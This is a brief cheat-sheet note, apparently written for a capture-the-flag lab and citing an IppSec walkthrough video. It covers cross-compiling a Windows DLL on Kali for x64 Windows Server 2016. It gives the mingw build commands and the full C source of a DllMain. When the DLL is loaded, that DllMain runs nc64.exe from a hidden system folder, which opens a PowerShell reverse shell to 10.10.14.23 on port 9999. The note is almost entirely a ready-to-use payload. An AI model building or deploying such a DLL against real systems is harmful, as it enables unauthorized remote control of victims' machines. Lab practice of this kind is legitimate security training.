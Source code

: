 ## Compiling dll on Kali, target x64 Win Server 2016

------
`x86_64-w64-mingw32-gcc payload.c -shared -o payload.dll`
`x86_64-w64-mingw32-g++ payload.c -lws2_32 -shared -o payload.dll `
`sudo apt-get install mingw-w64`
<pre><code>#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
	switch (fdwReason)
	{
	case DLL_PROCESS_ATTACH:
		WinExec("c:\\windows\\system32\\spool\\drivers\\color\\nc64.exe 10.10.14.23 9999 -e powershell.exe", 0);
		break;

	case DLL_THREAD_ATTACH:
		break;

	case DLL_THREAD_DETACH:
		break;

	case DLL_PROCESS_DETACH:
		break;
	}

	return TRUE;
}
</code></pre>

ref:
[IPPSEC arkham vid](https://youtu.be/krC5j1Ab44I?t=3937)